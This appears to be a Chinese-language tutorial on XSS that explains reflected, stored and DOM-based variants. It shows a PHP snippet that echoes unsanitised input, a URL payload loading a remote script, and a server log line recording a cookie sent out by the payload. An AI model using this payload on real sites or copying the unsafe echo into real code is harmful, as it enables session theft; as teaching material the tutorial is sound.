 # web 安全
--
## XSS 跨站脚本攻击
> 黑客通过HTML注入改动网页，插入了恶意脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

看一个例子：假设把用户输入的参数直接输出到网页上。  
test1.php

```php
$input = $_GET["param"];
echo "<div>".$input."</div>";
```

>现在的主流浏览器已经默认自带并开启了对于XSS（Cross Site Scripting）攻击的防护，Chrome使用的是XSS Auditor，其目的是识别URL请求参数中的存在的恶意Javascript脚本，并阻止这些脚本在服务器响应中执行。XSS Auditor采用黑名单方式来识别请求参数中的危险字符和标签，如果URL请求的参数与响应的内容不匹配，XSS Auditor则不会触发。  
>ps：暂时没找到染过xss Auditor进行Xss攻击。

### 反射型XSS
> 反射型XSS只是简单地把用户输入的数据“反射”给浏览器，也就是说，黑客往往诱使用户“点击“一个恶意链接，才能攻击成功。反射型XSS也叫做”非持久型XSS“。

### 存储型XSS
> 存储型XSS会把用户输入的数据“存储”在服务端，这种XSS具有很强的稳定性。

黑客写一篇恶意的javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的javascript代码。

### DOM Based Xss
> 通过修改页面的DOM节点形成的XSS。
比如有这样一个例子test2.html

--
### XSS攻击进阶
> XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意的脚本，通过恶意脚本控制用户浏览器，这些完成具体功能的恶意脚本，被称为XSS Payload。实际上就是通过javascript脚本。

一个常见的XSS Payload，就是通过读取浏览器的cookie对象，从而发起“Cookie 劫持”.  
cookie 一般加密保存了当前用户的登录凭证，cookie如果丢失，往往意味着用户的登录凭证丢失。换句话说，攻击者可以不通过密码，直接登录进用户的账户。
比如:  

```
http://127.0.0.1:8888/test1.php?param=<script%20src=http://127.0.0.1:8888/test3.js%20%3E%3C/script> 
```
真正的XSS Payload 写在这个远程的脚本中，避免url的参数里加入大量的javascript代码。  

> 在test3.js中通过代码窃取cookie。把document.cookie对象作为参数发送到远程服务器。
> 事实上 http:127.0.0.1:9999?log并不一定存在。远程服务器中的日志留下记录。

```
GET /log?cookie%3Dxxxxxxxx HTTP/1.1", upstream: "fastcgi://127.0.0.1:9000", host: "127.0.0.1:9999"
```

这样就完成了一个简单的窃取cookie的XSS Payload。

> 请问有人知道窃取cookie的作用是什么吗？cookie和session的区别？

